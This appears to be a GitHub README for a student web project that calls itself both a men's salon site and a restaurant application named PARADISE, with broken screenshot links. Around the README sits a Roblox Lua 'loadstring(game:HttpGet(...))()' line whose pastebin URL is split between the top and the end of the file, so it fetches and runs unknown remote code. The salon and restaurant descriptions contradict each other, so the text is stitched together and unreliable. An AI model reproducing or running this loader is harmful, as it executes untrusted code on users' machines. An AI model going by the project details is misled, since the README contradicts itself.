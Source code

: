 
loadstring(game:HttpGet(('htt# ✨ Men's Salin  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://victorious-grass-0ab224a10.3.azurestaticapps.net
**Project demo Video link** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -  ![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Home - Brave 10-08-2023 13_24_41](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/f9d8b861-8ae1-4443-a5ad-2fb2e3207c2d)

### Services page -![Uploading service1.png…]()
![Uploading service4.png…]()

### About Us Page -![Uploading about us 4.png…]()
![Uploading about us 3.png…]()

### Gallery Page -![gallery2](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/d14513e4-da27-43b7-9647-3fce9496603e)
![Uploading gallery1.png…]()

### Contact page -![Men's Salon Beauty Category Flat Bootstrap Responsive Web Template _ Contact Page __ w3layouts - Brave 10-08-2023 13_27_02](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/6efe7a14-fb56-4153-a0a2-dac7b408d5bd)

### Health Bot -![healthbot](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/c7a253b1-8cc5-4f75-96db-efb328c51f9e)

## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()![healthbot](https://github.com/satyaprasadpithani/project-FRT/assets/113784988/9936e2a6-acfd-4bb8-81fc-c168ef6b48dc)
